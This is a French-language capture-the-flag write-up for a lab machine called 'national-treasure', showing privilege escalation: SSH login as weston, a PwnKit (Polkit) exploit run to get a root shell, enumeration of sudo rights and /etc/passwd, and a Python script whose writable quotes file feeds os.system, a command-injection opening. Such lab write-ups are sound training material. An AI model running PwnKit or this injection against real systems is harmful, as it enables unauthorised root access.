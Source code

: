 
J'ai trouver un autre site qui arrive a le faire : https://www.guballa.de/vigenere-solver
```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.
In case I forget.... M**********************************************s
```
Nous avons le 1er mot de passe.

# Privesc to user
On peux se connecter en SSH avec le compte de Weston et le mdp trouver plus haut.

Il nous faut désormais l'accès au compte de **cage** comme on peu le voir dans le fichier **/etc/passwd** :
```
cage:x:1000:1000:cage:/home/cage:/bin/bash
ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
weston:x:1001:1001::/home/weston:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```
En utilisant le script LSE.sh, il trouve une vulnérabilité Polkit, on peu donc déjà être root.
```
weston@national-treasure:/tmp$ chmod +x PwnKit
weston@national-treasure:/tmp$ ./PwnKit 
root@national-treasure:/tmp#
```

Mais continions le chemin **normal** ^^

On vois qu'il a un acces sudo ici :
```
[sudo] password for weston: 
Matching Defaults entries for weston on national-treasure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User weston may run the following commands on national-treasure:
    (root) /usr/bin/bees
```
Le fichier **bees** contient un script bash:
```
#!/bin/bash

wall "AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!!"
```
Je continue mes fouilles.

En regardant dans le dossier /opt je trouve ce script python :
```
/opt/.dads_scripts/spread_the_quotes.py
```
```
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```
On peux écrire dans le fichier présent dans **/opt/.dads_scripts/.files/.quotes**